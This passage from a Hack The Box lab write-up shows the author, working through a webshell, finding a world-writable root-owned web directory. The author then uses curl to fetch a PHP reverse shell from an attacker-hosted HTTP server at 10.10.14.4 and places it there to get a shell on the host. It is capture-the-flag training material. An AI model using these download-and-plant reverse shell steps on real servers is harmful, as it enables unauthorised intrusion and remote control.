 ```yaml
-rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb.php
drwxr-xr-x 26 www-data www-data    4096 May 30  2022 media
-rw-rw-rw-  1 www-data www-data 1474911 Sep  7  2017 mod.out
drwxr-xr-x 28 www-data www-data    4096 Jan  3 12:54 modules
-rw-rw-rw-  1 www-data www-data  252614 Sep  7  2017 onemoretry.txt
-rw-rw-rw-  1 www-data www-data     793 Sep  8  2017 out.zip
drwxr-xr-x 16 www-data www-data    4096 May 30  2022 plugins
-rw-r--r--  1 www-data www-data     836 Aug 14  2017 robots.txt
drwxr-xr-x  5 www-data www-data    4096 May 30  2022 templates
drwxr-xr-x  2 www-data www-data    4096 Jan  3 12:54 tmp
-rw-r--r--  1 www-data www-data    1690 Aug 14  2017 web.config.txt
-rw-r--r--  1 www-data www-data    3736 Sep  6  2017 wordpress-shell.php
```

One thing outstanding here is the directory owned by `root`.
That is the only one which is owned by `root` in this directory.

```bash
[webshell]> ls -al /var/www/html/files
total 12
drwxrwxrwx  2 root     root     4096 Oct 17  2017 .
drwxr-xr-x 18 www-data www-data 4096 May 30  2022 ..
-rw-r--r--  1 root     root     1406 Oct 17  2017 lcars.zip
```

Given the `lcars.zip` file, it's the one we found from https(443) service.
And the directory is writable by `others`.

I think that the https(443) service we observed before is hosted by the Host system.
What if I put `php-reverse-shell.php` file here, and the server can run this php?
Then, I can expect to open a reverse shell on the Host! Let's try.

Let's upload the `php-reverse-shell.php` file on `/var/www/html/files` directory.

```bash
(Kali)
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.61 - - [03/Jan/2025 10:31:15] "GET /php-reverse-shell.php HTTP/1.1" 200 -


(Docker target)
[webshell]> curl http://10.10.14.4:8000/php-reverse-shell.php -s -o /var/www/html/files/php-reverse-shell.php
```


Then, I can open this page through browser.
